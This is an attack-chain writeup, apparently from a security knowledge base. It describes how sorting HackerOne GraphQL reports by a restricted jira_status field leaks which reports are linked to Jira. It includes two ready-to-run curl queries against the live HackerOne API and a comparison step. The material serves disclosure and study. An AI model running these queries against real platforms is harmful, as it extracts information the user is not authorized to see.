

# Infer Jira Status from GraphQL Sorting Discrepancy in HackerOne API

Multi-stage attack chain demonstrating a complete attack workflow to infer sensitive Jira workflow information from HackerOne reports via unauthorized GraphQL sorting.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- GraphQL client (e.g., curl or Postman)

### Target Environment

- HackerOne platform
- GraphQL API endpoint
- Authenticated user session without Jira access

### Initial Access Requirements

- Valid HackerOne user credentials for a test team
- Network access to HackerOne API
- No prior Jira permissions

## Detailed Attack Procedures

### Step 1: Query Reports Ordered by ID

procedure: [[procedures/Query-Reports-Ordered-by-ID]]

**Objective**: Establish a baseline count and listing of accessible reports for a specific team without invoking Jira-related sorting.

**Instructions**: Authenticate to the HackerOne GraphQL API and execute the baseline query using [[commands/graphql-query-reports-by-id]] to fetch reports ordered by ID:

```bash
curl -X POST https://api.hackerone.com/graphql \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"query": "{ reports(where: {team: {handle: {_eq: \"team_handle\"}}}, order_by: {direction: ASC, field: id}) { total_count nodes { substate jira_escalation_state jira_escalation_last_state_change_at created_at disclosed_at extracted_report_data { hosts } title url team { handle } reporter { username } } } }"}'
```

**Expected Output**: JSON response with total_count (e.g., 10) and an array of report nodes, all with null Jira fields.

**Success Indicators**:
- total_count matches expected accessible reports
- No Jira-related data visible in nodes

### Step 2: Query Reports Ordered by Jira Status

procedure: [[procedures/Query-Reports-Ordered-by-Jira-Status]]

**Objective**: Attempt sorting by the restricted jira_status field to observe discrepancies in count and listings.

**Instructions**: Using the same authentication, execute the modified query with [[commands/graphql-query-reports-by-jira-status]] to sort by jira_status:

```bash
curl -X POST https://api.hackerone.com/graphql \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"query": "{ reports(where: {team: {handle: {_eq: \"team_handle\"}}}, order_by: {direction: ASC, field: jira_status}) { total_count nodes { substate jira_escalation_state jira_escalation_last_state_change_at created_at disclosed_at extracted_report_data { hosts } title url team { handle } reporter { username } } } }"}'
```

**Expected Output**: JSON response with higher total_count (e.g., 11) and nodes including reports with null jira_escalation_state, indicating hidden Jira associations.

**Success Indicators**:
- total_count higher than baseline
- Additional or reordered reports appear
- Null values in Jira fields on some nodes

### Step 3: Compare Results and Investigate Discrepancies

procedure: [[procedures/Compare-Query-Results-for-Discrepancies]]

**Objective**: Analyze differences between queries to infer which reports are linked to Jira tickets.

**Instructions**: Manually compare the outputs from Step 1 and Step 2, noting differences in total_count and node listings. Look for duplicates or extra reports only visible in the jira_status sort, using simple diff tools or manual review.

**Expected Output**: Identification of reports with inferred Jira status based on sorting-induced discrepancies.

**Success Indicators**:
- Discrepancies confirm Jira usage on specific reports
- Sensitive workflow inference without direct access

## Attack Chain Summary

### Key Achievements

1. Baseline establishment of report accessibility
2. Exploitation of sorting to reveal hidden Jira associations
3. Inference of internal workflows via side-channel discrepancies

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
